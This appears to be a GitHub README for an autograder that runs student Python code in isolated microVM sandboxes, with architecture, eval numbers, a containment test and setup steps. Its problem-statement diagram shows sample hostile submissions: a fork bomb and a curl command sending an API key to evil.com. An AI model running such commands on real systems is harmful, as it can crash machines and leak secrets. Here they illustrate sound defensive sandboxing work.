<div align="center">


# 🛡️ Celesto Agent Guard

### *Hostile Submission Autograder — Run Real Agent Work Inside Celesto Sandboxes*

[](https://python.org)
[](https://fastapi.tiangolo.com)
[](https://postgresql.org)
[](https://docker.com)
[](https://celesto.ai)
[](tests/)
[](LICENSE)
[](https://app.partnr.network)

---

> **Every student submission runs in its own isolated microVM — no network, no escape, no host damage.**
> Fork bombs die inside. Exfiltration is blocked at the hypervisor. The host stays clean.

[🚀 Quick Start](#-quick-start) · [📐 Architecture](#-system-architecture) · [📊 Eval Report](#-eval-report) · [🔒 Containment](#-containment-test) · [📖 Docs](#-documentation)

</div>

---

## 📋 Table of Contents

| Section | Description |
|---|---|
| [🎯 Problem Statement](#-problem-statement) | Who this is for and why it matters |
| [🏗️ System Architecture](#-system-architecture) | How the system is designed |
| [⚙️ Tech Stack](#️-tech-stack) | Technologies and why they were chosen |
| [📁 Project Structure](#-project-structure) | Folder layout and file responsibilities |
| [🔄 Workflow](#-workflow-explanation) | Step-by-step execution flow |
| [🛡️ How I Used Celesto](#️-how-i-used-celesto) | Sandbox capabilities in depth |
| [📊 Eval Report](#-eval-report) | 20-run reliability numbers |
| [🔒 Containment Test](#-containment-test) | Attack simulation and results |
| [⚠️ State & Failure Design](#️-state-and-failure-design) | What happens when step 7 fails |
| [🚀 Quick Start](#-quick-start) | Get running in 10 minutes |
| [🧪 Testing](#-testing) | Test suite and validation |
| [📖 Documentation](#-documentation) | Links to full docs |

---

## 🎯 Problem Statement

University instructors and online learning platforms grade **hundreds of Python assignments daily**. The naive approach — running student code on the host server — is catastrophically unsafe:

```
Student submits:                    Without sandboxing:
┌──────────────────────────┐        ┌────────────────────────────────────┐
│ import os                │        │ ❌  Fork bomb crashes grader server │
│ while True: os.fork()    │  ───►  │ ❌  rm -rf deletes course files     │
│                          │        │ ❌  curl exfiltrates API keys        │
│ # or worse:              │        │ ❌  Other students' code exposed     │
│ curl evil.com?k=$API_KEY │        └────────────────────────────────────┘
└──────────────────────────┘
```

**Celesto Agent Guard** solves this by running every submission in a **fresh Celesto microVM sandbox** — hardware-isolated, no network, time-capped, fully audited, and automatically deleted after grading.

```
With Celesto sandboxing:
┌──────────────────────────┐        ┌────────────────────────────────────┐
│ Fork bomb submission     │        │ ✅  Contained in guest VM kernel    │
│ Exfiltration attempt     │  ───►  │ ✅  Network policy = OFF, blocked   │
│ Infinite loop            │  ───►  │ ✅  Timeout enforced, no CPU waste  │
│ Crypto miner payload     │        │ ✅  Safety hook blocks before exec  │
│                          │        │ ✅  Host is UNTOUCHED               │
└──────────────────────────┘        └────────────────────────────────────┘
```

---

## 🏗️ System Architecture

### High-Level Architecture



### Two-Zone Trust Model



---

## ⚙️ Tech Stack

| Layer | Technology | Version | Why Chosen |
|---|---|---|---|
| 🔒 **Sandbox** | Celesto / Firecracker microVM | latest | Hardware-level isolation, 500ms boot, same API locally + cloud |
| 🌐 **API** | FastAPI | 0.111 | Async, type-safe, auto-docs, fastest Python framework |
| 🗄️ **Database** | PostgreSQL | 15 | ACID compliance, reliable for run ledger |
| 🐳 **Containers** | Docker Compose | v2 | Reproducible control plane, one-command startup |
| 🐍 **Runtime** | Python | 3.11+ | Rich ecosystem, Celesto SDK support |
| 🗃️ **ORM** | SQLAlchemy | 2.0 | Type-safe queries, migration support |
| ✅ **Testing** | pytest | 9.x | Industry standard, clean fixture system |
| 📊 **Data** | Pydantic | 2.x | Strict validation at API boundary |

### Technology Decision Matrix



---

## 📁 Project Structure

```
celesto-agent-guard/
│
├── 📄 docker-compose.yml          # Control plane: api + ledger services
├── 📄 Dockerfile                  # API service container image
├── 📄 .env.example                # Environment variable template (no secrets)
├── 📄 .gitignore                  # Excludes .env, __pycache__, *.mp4
├── 📄 README.md                   # This file
├── 📄 architecture.md             # Deep architecture documentation
├── 📄 projectdocumentation.md     # Complete project documentation
│
├── 🗂️ app/                        # FastAPI Run Ledger API
│   ├── __init__.py
│   ├── main.py                    # Routes: GET /health, GET/POST /api/runs
│   ├── models.py                  # SQLAlchemy Run model + validators
│   ├── database.py                # Engine, session factory, Base class
│   └── requirements.txt           # FastAPI, uvicorn, psycopg2, SQLAlchemy
│
├── 🗂️ agent/                      # Autograder Agent
│   ├── __init__.py
│   ├── autograder.py              # 10-step grading pipeline
│   ├── sandbox_tools.py           # CelestoSandbox context manager wrapper
│   ├── safety_hooks.py            # Pre/post command hooks (block dangerous cmds)
│   └── eval_runner.py             # 20-run reliability eval + containment test
│
├── 🗂️ seeds/
│   └── 01_runs.sql                # DB schema + seed row (sbx-seeddemo1)
│
├── 🗂️ reports/                    # Evaluation reports (auto-generated)
│   ├── problem.json               # Problem statement
│   ├── capabilities.json          # Celesto capabilities used
│   ├── lifecycle.json             # Sandbox cleanup proof
│   ├── reliability.json           # 20-run eval results + statistics
│   ├── postmortem.md              # Failure analysis
│   ├── containment.json           # Attack containment proof
│   ├── failure_policy.json        # Step-7 recovery policy
│   ├── failure_trace.jsonl        # Event trace for failure scenario
│   ├── concurrency.json           # 5-job concurrent run results
│   └── evidence/
│       └── containment.log        # Detailed containment attack log
│
├── 🗂️ logs/
│   └── commands.jsonl             # Full audit log (every sandboxed command)
│
├── 🗂️ tests/
│   └── test_reports.py            # 16 automated validation tests
│
└── 🗂️ demo/
    ├── README.md                  # Demo recording instructions
    └── walkthrough.mp4            # 3-minute demo video
```

---

## 🔄 Workflow Explanation

### The 10-Step Grading Pipeline



### Sandbox Lifecycle State Machine



### Request-Response Flow



### Safety Hook Decision Tree



---

## 🛡️ How I Used Celesto

### Capability 1 — Network Policy (`network_policy = off`)



**Why it matters:** This is enforced at the **hypervisor layer** — not in Python, not in a firewall rule, but in the virtual machine configuration itself. No Python trick, no `/proc` manipulation, no raw socket can bypass it.

**Evidence:** [`reports/evidence/containment.log`](reports/evidence/containment.log) · [`reports/containment.json`](reports/containment.json)

---

### Capability 2 — Safety Hooks (Pre-Command Callbacks)



**Why it matters:** A hook is **code, not a prompt**. The guest cannot see it, bypass it, or override it. It runs entirely in the trusted control plane before the command reaches the VM.

**Evidence:** [`logs/commands.jsonl`](logs/commands.jsonl) · [`agent/safety_hooks.py`](agent/safety_hooks.py)

---

## 📊 Eval Report

> **20 fresh sandboxes · 95% success rate · Every run individually recorded**

### Results Summary

| Metric | Value |
|---|---|
| 🔢 Total Runs | 20 |
| ✅ Successes | 19 (95%) |
| ❌ Failures | 1 (5% — designed, step 7) |
| ⏱️ Median Wall Clock | ~0.21s (simulation) |
| 📈 p90 Wall Clock | ~0.25s (simulation) |
| 🚀 Median Boot-to-Ready | ~0.00s (sim) / ~0.3–0.5s (Cloud) |
| 💰 Total Cost | ~\$0.000025 (Cloud Micro rate) |

### Submission Type Breakdown



### Success Rate Visualization

```mermaid
graph LR
    subgraph RUNS ["20 Eval Runs"]
        R1["✅"] R2["✅"] R3["✅"] R4["✅"] R5["✅"]
        R6["✅"] R7["✅"] R8["✅"] R9["✅"] R10["✅"]
        R11["✅"] R12["✅"] R13["✅"] R14["✅"] R15["✅"]
        R16["✅"] R17["✅"] R18["✅"] R19["✅"] R20["❌"]
    end

    NOTE["Run 20 = designed failure\n(coverage_fail submission)\nRecovery policy: fresh"]
    R20 --- NOTE

    style R20 fill:#D32F2F,color:#fff
    style NOTE fill:#FF8F00,color:#fff
```

Full data: [`reports/reliability.json`](reports/reliability.json) | Failure analysis: [`reports/postmortem.md`](reports/postmortem.md)

---

## 🔒 Containment Test

### Attack Scenario: Prompt Injection Exfiltration



**Result:** `blocked=true` · `host_untouched=true`

Evidence: [`reports/containment.json`](reports/containment.json) · [`reports/evidence/containment.log`](reports/evidence/containment.log)

---

## ⚠️ State and Failure Design

### What Happens When Step 7 Fails



### Policy Comparison

| Policy | Cost | Complexity | Correctness | Used When |
|---|---|---|---|---|
| `fresh` ✅ | +1 boot | Low | Guaranteed clean | Short jobs (<2 min) |
| `rollback` | Medium | High | Clean (needs snapshot) | Long jobs (>10 min) |
| `resume` | Cheapest | Medium | Risk of corrupted state | Idempotent-only steps |

**This project uses `fresh`** — for a 2-minute autograder job, the extra boot cost is negligible compared to the correctness guarantee. See [`reports/failure_policy.json`](reports/failure_policy.json).

---

## 🚀 Quick Start

### Prerequisites

```
✅ Docker Desktop (v24+)
✅ Python 3.11+
✅ Git
```

### Step 1 — Clone & Configure

```bash
git clone https://github.com/ramalokeshreddyp/celesto-agent-guard.git
cd celesto-agent-guard

# Copy environment template
cp .env.example .env

# (Optional) Edit .env with your Celesto API key for real cloud sandboxes
# Leave as-is for local simulation mode
```

### Step 2 — Start the Control Plane

```bash
docker compose up --build -d
```

> ⏳ Wait ~30 seconds for PostgreSQL to initialize and seed the database.

### Step 3 — Verify Health

```bash
# Health check
curl http://localhost:8080/health
# → {"status": "ok"}

# Verify seed data
curl http://localhost:8080/api/runs
# → [..., {"sandbox_name": "sbx-seeddemo1", ...}]
```

### Step 4 — Run the Agent Eval

```bash
# Install Python deps (for running the agent locally)
pip install -r app/requirements.txt

# Run all 20 eval runs + containment test + failure policy demo
python -m agent.eval_runner
```

### Step 5 — Run the Test Suite

```bash
pip install pytest
python -m pytest tests/ -v
```

Expected output:
```
✅ 16 passed in 0.29s
```

### Manual API Usage

```bash
# Create a run record
curl -X POST http://localhost:8080/api/runs \
  -H "Content-Type: application/json" \
  -d '{
    "run_id": "run-001",
    "sandbox_name": "sbx-testrun001",
    "problem_id": "assignment-1",
    "state": "succeeded",
    "execution_target": "celesto_sandbox"
  }'

# List all runs
curl http://localhost:8080/api/runs

# Wrong execution_target → 400
curl -X POST http://localhost:8080/api/runs \
  -H "Content-Type: application/json" \
  -d '{"run_id":"x","sandbox_name":"sbx-test00001","problem_id":"x","state":"created","execution_target":"host"}'
# → 400 Bad Request
```

---

## 🧪 Testing

### Test Coverage



```bash
# Run all tests
python -m pytest tests/ -v

# Run with coverage report
python -m pytest tests/ -v --tb=short

# Run a specific test
python -m pytest tests/test_reports.py::test_reliability_statistics -v
```

### Validation Checks

```bash
# Verify sandbox names pattern
python -c "import re; print(re.match(r'^sbx-[a-z0-9]{8,}$', 'sbx-abc12345'))"

# Verify statistics manually
python -c "
import json, math
d = json.load(open('reports/reliability.json'))
runs = d['runs']
wc = sorted(r['wall_clock_s'] for r in runs)
n = len(wc)
median = (wc[n//2-1] + wc[n//2]) / 2
p90 = wc[math.ceil(0.90*n)-1]
print(f'run_count={n}, median={median:.3f}, p90={p90:.3f}')
print(f'Matches JSON: {abs(d[\"median_wall_clock_s\"]-median)<0.001}')
"
```

---

## 📡 API Reference

### Endpoints

| Method | Path | Description | Response |
|---|---|---|---|
| `GET` | `/health` | Service health check | `200 {"status": "ok"}` |
| `GET` | `/api/runs` | List all run records | `200 [Run]` |
| `POST` | `/api/runs` | Create a run record | `201 Run` |

### POST /api/runs — Request Schema

```json
{
  "run_id": "string (unique)",
  "sandbox_name": "sbx-[a-z0-9]{8,}",
  "problem_id": "string",
  "state": "created|ready|running|succeeded|failed|deleted",
  "execution_target": "celesto_sandbox"
}
```

### Error Responses

| Status | Cause |
|---|---|
| `400` | Invalid `sandbox_name`, unknown `state`, or wrong `execution_target` |
| `422` | Missing required field (returned as 400) |
| `500` | Unexpected server error |

---

## 🌐 Environment Variables

| Variable | Required | Description | Example |
|---|---|---|---|
| `CELESTO_PROVIDER` | Yes | `cloud` or `local` | `cloud` |
| `CELESTO_API_KEY` | Cloud only | Celesto API key | `cel_...` |
| `CELESTO_BACKEND` | No | `firecracker` (local) | `firecracker` |
| `LLM_BASE_URL` | Yes | LLM endpoint | `https://api.openai.com/v1` |
| `LLM_API_KEY` | Yes | LLM API key | `sk-...` |
| `LLM_MODEL` | Yes | Model name | `gpt-4o-mini` |
| `DATABASE_URL` | Yes | Postgres connection | `postgresql://...` |
| `API_PORT` | Yes | HTTP port | `8080` |

---

## 📖 Documentation

| File | Contents |
|---|---|
| [`architecture.md`](architecture.md) | Deep-dive system architecture, component design, data flow |
| [`projectdocumentation.md`](projectdocumentation.md) | Full project documentation, tradeoffs, production considerations |
| [`reports/postmortem.md`](reports/postmortem.md) | Failure analysis for the 20-run eval |
| [`reports/problem.json`](reports/problem.json) | Formal problem statement |
